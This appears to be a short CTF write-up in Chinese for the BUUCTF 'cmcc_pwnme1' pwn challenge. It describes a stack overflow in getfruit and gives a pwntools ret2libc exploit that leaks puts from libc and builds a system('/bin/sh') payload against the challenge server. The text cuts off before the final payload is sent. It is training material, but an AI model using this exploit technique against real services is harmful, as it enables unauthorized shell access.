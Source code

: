 ## 3.BUUCTF-cmcc_pwnme1
getfruit函数存在栈溢出

<img width="311" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/0f35319b-f265-41e3-b0ba-20e137335745">

正常溢出覆盖返回地址为getflag即可 但在BUUCTF中flag路径不对 于是ret2libc

### exp_pwnme1.py
```python
from pwn import *
# p = process("./pwnme1")
p = remote("node4.buuoj.cn",25762)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

# libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc = ELF("/mnt/hgfs/ubuntu/BUUCTF/source/ubuntu16/libc-2.23-32.so")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

offset = 168
get_flag = 0x8048677

puts_plt = 0x8048548
puts_got = 0x804a028
main = 0x80486F4

ru(">> 6. Exit    \n")
raw_input("Ther")
sl('5')

# 1.leak libc
payload = b'A' * offset + p32(puts_plt) + p32(main) + p32(puts_got)
ru("Please input the name of fruit:")
sl(payload)

libc_puts = u32(ru('\xf7')[-4:])
success("libc_puts ==> {}".format(hex(libc_puts)))

libc_base = libc_puts - libc.symbols['puts']
success("libc_base ==> {}".format(hex(libc_base)))

libc_system = libc_base + libc.symbols['system']
success("libc_system ==> {}".format(hex(libc_system)))

libc_binsh = libc_base + libc.search('/bin/sh').next()
success("libc_binsh ==> {}".format(hex(libc_binsh)))

# 2.system("/bin/sh")
ru(">> 6. Exit    \n")
raw_input("Ther")
sl('5')

payload = b'A' * offset + p32(libc_system) + p32(0xdeadbeef) + p32(libc_binsh)
```